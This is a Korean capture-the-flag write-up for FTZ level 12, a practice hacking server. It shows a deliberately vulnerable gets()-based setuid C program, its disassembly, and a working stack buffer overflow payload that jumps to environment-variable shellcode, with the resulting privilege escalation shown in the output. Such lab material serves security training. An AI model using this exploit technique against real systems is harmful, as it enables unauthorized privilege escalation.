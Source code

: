 # **FTZ LEVEL12**

## <img src="http://freevector.co/wp-content/uploads/2014/07/61901-door-key.png" width="25"> **Keys**
>attackme.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main( void )
{
	char str[256];

 	setreuid( 3093, 3093 );
	printf( "문장을 입력하세요.\n" );
	gets( str );
	printf( "%s\n", str );
} 
```
`gets()` 를 통해 입력을 받기때문에 pipe 를 이용해야 한다.

gdb로 분석하면
```
(gdb) disas main
Dump of assembler code for function main:
0x08048470 <main+0>:	push   ebp
0x08048471 <main+1>:	mov    ebp,esp
0x08048473 <main+3>:	sub    esp,0x108
0x08048479 <main+9>:	sub    esp,0x8
0x0804847c <main+12>:	push   0xc15
0x08048481 <main+17>:	push   0xc15
0x08048486 <main+22>:	call   0x804835c <setreuid>
0x0804848b <main+27>:	add    esp,0x10
0x0804848e <main+30>:	sub    esp,0xc
0x08048491 <main+33>:	push   0x8048538
0x08048496 <main+38>:	call   0x804834c <printf>
0x0804849b <main+43>:	add    esp,0x10
0x0804849e <main+46>:	sub    esp,0xc
0x080484a1 <main+49>:	lea    eax,[ebp-264]
0x080484a7 <main+55>:	push   eax
0x080484a8 <main+56>:	call   0x804831c <gets>
0x080484ad <main+61>:	add    esp,0x10
0x080484b0 <main+64>:	sub    esp,0x8
0x080484b3 <main+67>:	lea    eax,[ebp-264] 
0x080484b9 <main+73>:	push   eax
0x080484ba <main+74>:	push   0x804854c
0x080484bf <main+79>:	call   0x804834c <printf>
0x080484c4 <main+84>:	add    esp,0x10
0x080484c7 <main+87>:	leave  
0x080484c8 <main+88>:	ret    
0x080484c9 <main+89>:	lea    esi,[esi]
0x080484cc <main+92>:	nop    
0x080484cd <main+93>:	nop    
0x080484ce <main+94>:	nop    
0x080484cf <main+95>:	nop    
End of assembler dump.
```
FTZ 11과 동일하게 환경변수를 이용해서 풀면 ( [환경변수 이용하기](https://github.com/papico0306/SystemHackingPractice/blob/master/FTZ_Solve/ftz11_solve.md "환경변수 이용하기") )
```
[level12@ftz level12]$ /tmp/ge EGG
EGG=0xbffffc3d
```

## <img src="https://pngimg.com/uploads/road/road_PNG24.png" width="25"> **Payload**
>메모리 구조
```
| str[256] | dummy[8] | sfp | ret |
```

>Payload
```
 (python -c "print 'A'*268+'\x3d\xfc\xff\xbf'";cat) | ./attackme
```

## <img src="https://maxcdn.icons8.com/windows8/PNG/512/Military/sword-512.png" width="25"> **Attack**
```
[level12@ftz level12]$ (python -c "print 'A'*268+'\x3d\xfc\xff\xbf'";cat) | ./attackme 
문장을 입력하세요.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=?
my-pass
TERM environment variable not set.

Level13 Password is "~~~~~~~~~".

```